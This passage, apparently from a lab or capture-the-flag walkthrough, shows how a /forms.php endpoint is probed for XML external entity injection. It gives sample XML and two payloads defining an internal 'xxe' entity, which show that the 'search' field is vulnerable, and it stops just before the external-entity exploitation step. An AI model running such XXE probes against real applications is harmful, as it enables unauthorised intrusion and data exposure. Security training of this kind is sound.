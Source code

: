   * Sending some sample data in /forms.php shows us the XML format in which data is sent:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
      <root>
        <name>
          20
        </name>
        <search>
          message
        </search>
      </root>
    ```
  
  * Currently, we see a message at the bottom of the page - 'Sorry, account number is not active!'

  * To test if the page is vulnerable to XXE injection, we can send the following XML data, which includes an XML entity:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE name [
      <!ENTITY xxe "XXE Test">
    ]>
      <root>
        <name>
          &xxe;
        </name>
        <search>
          message
        </search>
      </root>
    ```

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE message [
      <!ENTITY xxe "XXE Test">
    ]>
      <root>
        <name>
          20
        </name>
        <search>
          &xxe;
        </search>
      </root>
    ```
  
  * The second variation, in which the 'xxe' entity is referenced in 'search' parameter - we see the string "XXE Test" in response. If the web app was not vulnerable, we should simply see '&xxe;' string in response

  * As we now know 'search' parameter is vulnerable to XXE with internal entity, we can further exploit this with external entity:
